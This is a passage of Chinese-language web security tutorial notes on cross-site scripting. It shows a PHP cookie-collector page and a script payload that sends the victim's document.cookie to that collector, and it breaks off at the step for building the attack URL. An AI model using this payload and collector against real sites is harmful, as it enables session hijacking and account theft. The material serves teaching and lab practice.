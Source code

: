 

攻击思路

![image-20210413193834622](media/19.1.常见攻击/image-20210413193834622.png)

攻击者web设计



构造攻击页面。http://127.0.0.1/cookie.php

cookie.php

```bash
<?php
$cookie = $_GET['cookie'];
file_put_contents('cookie.txt',$cookie);
?>
```



构造攻击js

```bash
<script>document.location='http://127.0.0.1/cookie.php?cookie='+document.cookie;</script>
```



构造攻击url
